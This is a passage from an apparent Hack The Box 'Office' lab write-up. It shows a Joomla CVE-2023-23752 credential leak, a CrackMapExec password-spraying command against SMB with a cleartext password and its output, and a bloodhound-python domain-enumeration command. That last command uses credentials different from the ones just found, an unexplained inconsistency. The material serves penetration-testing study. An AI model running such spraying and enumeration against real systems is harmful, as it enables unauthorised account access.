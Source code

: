 ## Foothold
- A quick search for vulnerabilities related to `Joomla 4.2.7` led to the discovery of [`CVE-2023-23752 - Joomla Improper Access Check`](https://github.com/K3ysTr0K3R/CVE-2023-23752-EXPLOIT).

![](/assets/images/HTB-Writeup-Office/Pasted image 20240618234758.png)

- This `CVE-2023-23752` relates to an improper access check within the application, which allows unauthorized access to critical web service endpoints.


![](/assets/images/HTB-Writeup-Office/Pasted image 20240619001613.png)

- [K3ysTr0K3R](https://github.com/K3ysTr0K3R) has an excellent Proof of Concept (PoC) that automates the collection of passwords and usernames to present them neatly.

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619000330.png)

- The pentester attempted to access the Joomla dashboard using the credentials `administrator : H0lOgrams4reTakIng0Ver754!`, but it didn't work. At this point, the user enumeration process with the tool `kerbrute` had concluded. The pentester had a password (`H0lOgrams4reTakIng0Ver754!`) and a list of usernames, so he performed a `Password Spraying` attack using the tool `CrackMapExec` against the SMB service, discovering valid credentials: `dwolfe : H0lOgrams4reTakIng0Ver754!`.

```bash
crackmapexec smb 10.10.11.3 -u users.txt -p 'H0lOgrams4reTakIng0Ver754!' -d OFFICE.HTB
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:OFFICE.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] OFFICE.HTB\administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] OFFICE.HTB\Administrator:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] OFFICE.HTB\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] OFFICE.HTB\etower:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [+] OFFICE.HTB\dwolfe:H0lOgrams4reTakIng0Ver754! 
```

- Since we have valid credentials for a domain user, we'll use `bloodhound-python`, a Python-based ingestor for BloodHound, to extract domain information for further analysis.

```bash
sudo bloodhound-python -u 'tstark' -p 'playboy69' -d OFFICE.HTB -c all -ns 10.10.11.3
```

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619123841.png)

- Afterward, we'll compress all the `JSON` files into a `zip` file to upload them to BloodHound.

```bash
zip office_ad.zip *json
```

![](/assets/images/HTB-Writeup-Office/Pasted image 20240619124003.png)
